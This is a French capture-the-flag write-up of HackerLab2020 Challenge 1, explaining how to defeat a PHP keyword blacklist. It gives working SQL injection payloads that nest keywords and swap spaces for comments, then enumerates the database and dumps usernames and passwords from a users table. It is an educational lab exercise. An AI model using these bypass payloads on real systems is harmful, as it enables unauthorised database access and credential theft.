 # HackerLab2020 - Challenge 1

## Challenge
>COVID_INJECTION
Les listes noires, c'est pas la meilleure option contre les "covid_injection".
L'ANSSI l'a toujours répété aux développeurs. Blacklister les simples et doubles apostrophes ne >protège pas contre le "covid_injection".
Montre à ces développeurs qu'ils ont tort de ne pas suivre les directives.

## Solution
Primo, nous avons pris connaissance du code source de l'application mis à notre disposition
```php
<?php
if (isset($_GET['source'])) {
    die(highlight_file(__FILE__));
}

require("conf/vuln.conf.php");
error_reporting(0);

if (isset($_GET['q'])) {
    $covid_vaccine = array('union', 'select', 'or', 'from', 'where');
    foreach ($covid_vaccine as $banned) {
        $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
    }
    if (strpos($_GET['q'], " ") !== false) die("covid_injection détecté");
}

?>
```
Nous remarquons que pour réussir ce challenge, nous devons faire de telle sorte que les mots clés *union*, *select*, *or*, *from*, *where* et  l'espace _" "_ échapperont au control des fonctions *preg_replace* et *strpos*

Ainsi, nous avons effectué plusieurs requêtes SQL avant d'atteindre le but.

Premier payload: ```'OORROR(1=1)OORROR'a'='```

Rendu:

![Rendu](Images/First-payload.png)

Le rendu ne nous révèle aucun flag. On a agit donc autrement à travers les étapes ci-après:

* **Identification des colonnes vulnérables**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,3,4/**/#```

Rendu:

![Rendu](Images/vuln-columns.png)

On peut donc retenir que les colonnes 2, 3 et 4 sont vulnérables.

* **Identification de la version de SQL**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,222,version(),444/**/#```

Rendu:

![Rendu](Images/sql-version.png)

La version du SQL est donc _8.0.1-dmr_

* **Identification du nom de la base de données**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,222,version(),database()/**/#```

Rendu:

![Rendu](Images/database-name.png)

Nom de la base de données: covid_injection

* **Identification les tables de la base de données**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(table_name),4/**/frfromom/**/infoorrmation_schema.tables/**/whwhereere/**/table_schema=database()/**/#```

Rendu:

![Rendu](Images/tables-name.png)

Nous découvrons par là une autre nouvelle table dont on n\'avait pas connaissance qu'est _users_

* **Identification des colonnes de la table _users_**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(column_name),4/**/frfromom/**/infoorrmation_schema.columns/**/whwhereere/**/table_schema=database()/**/and/**/table_name='users'/**/#```

Rendu:

![Rendu](Images/column_name.png)

Nous pouvons remarquer qu'en dehors des colonnes de la table _hack_hackerlab_ , nous d'autres colonnes qui sont pour la table users.

* **Affichage du contenu de la table _users_**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(id89l,passwoorrd,username),4/**/frfromom/**/users/**/#```

Rendu:

![Rendu](Images/flag.png)

Nous obtenons ainsi le flag

```FLAG: CTF_Y0uAreAwas0m3_b__t___es```

Cependant nous avons le début d'une clé publique. L'intégralité de la clé ne s'est pas affichéé à cause de la limite de la fonction _group_concat_. Alors nous sommes obligés de modifier notre requête.

Nouveau Payload: ```inspiv'/**/uniunionon/**/all/**/seleselectct/**/1,passwoORrd,222,username/**/frfromom/**/users/**/#```

Rendu:

![Rendu](Images/complete.png)
